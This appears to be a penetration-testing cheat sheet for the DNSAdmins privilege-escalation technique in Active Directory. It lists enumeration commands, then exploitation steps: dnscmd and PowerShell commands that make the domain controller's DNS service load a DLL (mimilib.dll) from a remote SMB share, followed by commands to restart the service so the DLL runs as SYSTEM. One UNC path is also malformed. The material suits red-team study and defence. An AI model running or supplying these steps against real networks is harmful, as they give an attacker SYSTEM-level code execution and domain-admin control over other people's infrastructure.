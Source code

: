 #powershell #dnscmd #sc 
- DNSAdmins group member can load arbitrary DLLs with the privilege of the process called dns.exe. dns.exe runs as SYSTEM.
- If domain controlles in also running a DNS server, it can be abused to gain domain admin.
# Enumeration
- Powerview
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
```
- Active Directory Module
```powershell
Get-ADGroupMember -Identity DNSAdmins
```
# Exploitation
- Once, a member of this group is compromised, dnscmd.exe can be used (from RSAT DNS) to load the DLL.
```powershell
dnscmd <dc> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
```
- Using powershell to do the same (also requires RSAT DNS)
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName <dc-name> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\172.50.50.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <dc> -Verbose
```
- Restart the DNS server
```powershell
sc \\<dc> stop dns
sc \\<dc> start dns
```
